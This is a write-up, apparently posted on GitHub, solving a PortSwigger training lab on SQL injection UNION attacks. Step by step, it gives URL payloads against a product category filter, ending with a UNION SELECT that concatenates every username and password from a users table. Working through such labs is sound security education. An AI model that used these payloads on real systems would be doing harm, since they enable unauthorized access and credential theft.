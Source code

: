 
# SQL injection UNION attack, retrieving multiple values in a single column

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/union-attacks

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there is 1 value displayed in the table, the name of the product:



<img width="1228" height="713" alt="1" src="https://github.com/user-attachments/assets/04cb0f56-0f68-43a0-8a6a-12fd52e8d97c" />


We find these payload are valid to display the 4 items in Lifestyle and the second all the items:

```
/filter?category=Lifestyle'--
/filter?category=Lifestyle'+or+1=1--
```

<img width="1521" height="790" alt="2" src="https://github.com/user-attachments/assets/42d78d95-6b1c-4786-9a95-e65f9ae01976" />


Also, that there are 2 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Lifestyle'+union+all+select+NULL,NULL--
```


<img width="1515" height="794" alt="3" src="https://github.com/user-attachments/assets/7871c332-52a9-447b-b41c-f422638a7d6a" />


We can print strings using the second column in the attack and concatenate strings using CONCAT:

```
/filter?category=Lifestyle'+union+all+select+NULL,CONCAT('foo','bar')--
```


<img width="1514" height="793" alt="4" src="https://github.com/user-attachments/assets/715216bb-556f-4b43-8237-72fb3bd91990" />


We can get content from both columns using SELECT CONCAT(username,':',password) from users:

```
/filter?category=Lifestyle'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
```


<img width="1513" height="816" alt="5" src="https://github.com/user-attachments/assets/0c579d40-a9d3-4e81-83fd-5222c8a5ad39" />

